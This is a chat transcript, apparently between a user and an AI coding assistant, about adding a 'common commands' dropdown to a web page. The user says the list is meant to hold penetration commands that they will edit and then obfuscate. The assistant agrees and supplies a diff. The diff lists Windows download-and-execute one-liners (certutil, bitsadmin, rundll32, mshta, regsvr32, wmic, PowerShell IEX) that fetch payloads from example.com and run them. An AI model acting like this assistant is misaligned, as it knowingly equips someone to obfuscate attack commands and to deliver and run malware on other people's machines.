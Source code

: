 
---

我已经修改了以下内容：

1. CSS样式：
   - 添加了下拉菜单的基本样式
   - 设置了合适的z-index确保菜单显示在其他元素之上
   - 添加了暗色模式支持
   - 优化了按钮和菜单项的hover效果

2. JavaScript代码：
   - 添加了按钮点击事件来显示/隐藏菜单
   - 实现了点击菜单项自动填充命令到输入框
   - 添加了点击其他区域自动关闭菜单的功能
   - 添加了键盘访问支持（aria属性）

现在应该可以看到下拉菜单了。当你点击"常见命令示例"按钮时，会显示一个包含各种预设命令的下拉菜单。点击任何命令都会自动填充到输入框中。

如果还是看不到下拉菜单，请检查：
1. 页面是否正确刷新
2. 浏览器控制台是否有任何错误信息
3. 确认CSS和JavaScript文件是否正确加载

需要我继续调试吗？

---

_**User**_

还是一样哎，我希望你能在页面上列出常用渗透的命令，这样我直接修改参数再混淆比较方便

---

_**Assistant**_

我明白了,问题可能出在HTML结构上。让我们重新修改index.html,把常用命令列表放在更显眼的位置:

---

```diff
  header: |
              <div class="tools">
-                             <div class="command-examples">
-                                 <a class="button" id="common-commands-btn" aria-haspopup="listbox" aria-expanded="false" role="combobox" tabindex="0"><strong>常见命令示例</strong></a>
-                                 <menu class="context-menu" id="common-commands-menu" aria-labelledby="common-commands-btn" tabindex="-1" role="listbox">
-                                     <li role="option" data-command="certutil -urlcache -split -f http://example.com/payload.exe C:\Windows\Temp\payload.exe">远程下载文件 (certutil)</li>
-                                     <li role="option" data-command="powershell -c \"(New-Object System.Net.WebClient).DownloadFile('http://example.com/payload.exe', 'C:\\Windows\\Temp\\payload.exe')\"">远程下载文件 (PowerShell)</li>
-                                     <li role="option" data-command="bitsadmin /transfer myJob /download /priority high http://example.com/payload.exe C:\Windows\Temp\payload.exe">远程下载文件 (bitsadmin)</li>
-                                     <li role="option" data-command="curl -o C:\Windows\Temp\payload.exe http://example.com/payload.exe">远程下载文件 (curl)</li>
-                                     <li role="option" data-command="rundll32.exe javascript:\"\..\mshtml,RunHTMLApplication \";document.write();new%20ActiveXObject(\"WScript.Shell\").Run(\"powershell -nop -exec bypass -c IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')\");">执行远程PowerShell (rundll32)</li>
-                                     <li role="option" data-command="mshta vbscript:Close(Execute(\"GetObject(\"\"script:http://example.com/payload.sct\"\")\"))">执行远程脚本 (mshta)</li>
-                                     <li role="option" data-command="regsvr32 /s /u /i:http://example.com/payload.sct scrobj.dll">执行远程脚本 (regsvr32)</li>
-                                     <li role="option" data-command="wmic process call create \"powershell -c IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')\"">执行远程PowerShell (wmic)</li>
```